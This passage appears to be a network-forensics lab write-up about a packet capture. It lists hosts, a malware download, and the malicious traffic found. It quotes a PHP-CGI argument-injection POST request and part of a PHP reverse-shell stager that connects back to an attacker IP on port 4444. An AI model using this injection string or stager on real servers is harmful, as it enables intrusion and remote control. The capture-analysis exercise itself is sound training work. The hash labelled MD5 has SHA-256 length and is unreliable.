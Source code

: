 A malware binary is downloaded by the host at TCP stream #4. Obtain a copy of the file (might trigger your anti-virus if not using VM). Get the md5 sum of the binary and identify it at virustotal.com.
  - **MD5 of _smss.exe_: **
    ```
    b14ccb3786af7553f7c251623499a7fe67974dde69d3dffd65733871cddf6b6d
    ```




## Exercise 3

List the hosts (IP addresses) in the traffic.
  - **10.142.0.1, 10.142.0.2, 10.142.0.3**

Identify the packet that sends the initial malicious query.
  - **Packet information:**
    ``` 
    6	2013-04-29 14:00:34.295022	10.142.0.2	10.142.0.1	HTTP	1432	POST /?--define+allow_url_include%3don+-%64+safe_mode%3doff+--define+suhosin.simulation%3d1+--define+disable_functions%3d%22%22+-d+open_basedir%3dnone+--define+auto_prepend_file%3dphp://input+-%6e++ HTTP/1.1  (application/x-www-form-urlencoded)
    ```
  - **PHP Script**
    ```php
    <?php
    error_reporting(0);
    $ip   = '10.142.0.2';
    $port = 4444;
    $ipf  = AF_INET;
    if (FALSE !== strpos($ip, ":")) {
        $ip  = "[" . $ip . "]";
        $ipf = AF_INET6;
    }
    if (($f = 'stream_socket_client') && is_callable($f)) {
        $s      = $f("tcp://{$ip}:{$port}");
        $s_type = 'stream';
    } elseif (($f = 'fsockopen') && is_callable($f)) {
        $s      = $f($ip, $port);
        $s_type = 'stream';
    } elseif (($f = 'socket_create') && is_callable($f)) {
        $s   = $f($ipf, SOCK_STREAM, SOL_TCP);
        $res = @socket_connect($s, $ip, $port);
        if (!$res) {
            die();
        }
        $s_type = 'socket';
    } else {
        die('no socket funcs');
    }
    if (!$s) {
        die('no socket');
    }
    switch ($s_type) {
        case 'stream':
            $len = fread($s, 4);
            break;
        case 'socket':
            $len = socket_read($s, 4);
            break;
    }
    if (!$len) {
        die();
    }